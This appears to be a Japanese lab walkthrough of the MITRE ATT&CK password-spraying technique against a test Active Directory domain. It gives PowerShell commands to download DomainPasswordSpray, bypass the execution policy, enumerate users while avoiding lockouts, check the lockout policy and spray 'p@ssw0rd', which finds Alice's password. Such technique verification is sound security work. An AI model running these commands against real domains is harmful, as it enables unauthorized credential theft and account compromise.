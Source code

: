 # T1110.003 - Password Spraying

Password Spraying
-------------

Password Spraying 攻撃について記載します。

|  Type  | Description   |
|:---|:---|:---|
|  ID  |  T1110.003  |
|  Tactic  |  Credential Access |
|  Techniques  |  Brute Force  |
|  Sub-techniques  |  Password Spraying |

本検証では、dafthack 氏が公開している「Domain Password Spray」ツールを利用します。

まず、ツールの取得を行うため Invoke-WebRequest での TLS 1.2 を許可した上でダウンロードを行います。

```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest –URI "https://github.com/dafthack/DomainPasswordSpray/archive/master.zip" -OutFile "~\Desktop\Tools\PasswordSpary_master.zip“
```

ダウンロードした zip ファイルを展開します。

```
cd C:\Users\Alice\Desktop\Tools\
Expand-Archive .\PasswordSpray_master.zip
```

Excution Policy を許可したうえで、ツールのモジュールをインポートします。

```
cd .\PasswordSpray_master\DomainPasswordSpray-master\
Set-ExecutionPolicy Bypass
Import-Module .\DomainPasswordSpray.ps1
```
ここで、パスワードスプレーを試行するユーザの列挙を行います。
本ツールには、Get-DomainUserList 関数で事前にユーザの列挙を行う機能が備わっています。
以下の例では、列挙したユーザを userlist.txt ファイルに出力しています。

```
Get-DomainUserList -Domain labcorp.local -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt
```
![T1110.003-1](images/T1110.003-1.png)

次に、パスワードスプレーでは特定のパスワードを複数のユーザに対して試行を行いますが、本ツールでは試行するパスワードをリストで指定することが可能です。
多くのパスワードを指定すると、アカウントロックの恐れがあるため事前にパスワードポリシーを調査します。

パスワードポリシーの調査には、Powershell の Get-ADDefaultDomainPasswordPolicy ユーティリティを用います。
Windows 10 では標準で本ユーティリティが備わっていないため、Remote Server Administration Tools (RSAT) をインストールします。

![T1110.003-2](images/T1110.003-2.png)

https://docs.microsoft.com/en-US/troubleshoot/windows-server/system-management-components/remote-server-administration-tools

![T1110.003-3](images/T1110.003-3.png)

https://www.microsoft.com/en-us/download/details.aspx?id=45520

Get-ADDefaultDomainPasswordPolicy ユーティリティを実行するとアカウントロックの閾値を確認することができます。
以下の場合は、「Lookout Threshold」の値が 0 であるためアカウントロックの閾値は設定されていないことがわかります。

![T1110.003-4](images/T1110.003-4.png)

アカウントロックの閾値は設定されていませんでしたが、次の実行例ではパスワードに「p@ssw0rd」という文字列を指定してパスワードスプレーを試行しました。
その結果、ユーザ Alice のパスワードに合致しました。

```
Invoke-DomainPasswordSpray -UserList userlist.txt -Domain labcorp.local -Password p@ssw0rd -OutFile sprayed-creds.txt
```

![T1110.003-5](images/T1110.003-5.png)
